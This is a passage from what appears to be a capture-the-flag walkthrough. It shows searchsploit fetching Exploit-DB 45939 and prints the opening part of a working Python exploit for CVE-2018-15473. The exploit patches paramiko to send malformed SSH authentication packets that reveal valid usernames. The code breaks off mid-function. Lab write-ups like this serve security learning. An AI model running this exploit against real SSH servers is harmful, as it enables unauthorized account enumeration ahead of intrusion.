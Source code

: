 
**`searchsploit`** is a tool that allows searching for exploits and proof-of-concept (PoC) code locally from the **Exploit-DB** database.

- The search term used is "ssh user enumeration," meaning we are looking for known vulnerabilities related to user enumeration on SSH servers.

We retrieve the exploit using the following command:
```bash
searchsploit -m /linux/remote/45939.py
```

![](/assets/post/Symfonos/ssh2.png)



Content of the exploit:

```python
#!/usr/bin/env python2
# CVE-2018-15473 SSH User Enumeration by Leap Security (@LeapSecurity) https://leapsecurity.io
# Credits: Matthew Daley, Justin Gardner, Lee David Painter


import argparse, logging, paramiko, socket, sys, os

class InvalidUsername(Exception):
    pass

# malicious function to malform packet
def add_boolean(*args, **kwargs):
    pass

# function that'll be overwritten to malform the packet
old_service_accept = paramiko.auth_handler.AuthHandler._client_handler_table[
        paramiko.common.MSG_SERVICE_ACCEPT]

# malicious function to overwrite MSG_SERVICE_ACCEPT handler
def service_accept(*args, **kwargs):
    paramiko.message.Message.add_boolean = add_boolean
    return old_service_accept(*args, **kwargs)

# call when username was invalid
def invalid_username(*args, **kwargs):
    raise InvalidUsername()

# assign functions to respective handlers
paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_SERVICE_ACCEPT] = service_accept
paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_USERAUTH_FAILURE] = invalid_username

# perform authentication with malicious packet and username
def check_user(username):
    sock = socket.socket()
    sock.connect((args.target, args.port))
    transport = paramiko.transport.Transport(sock)

    try:
```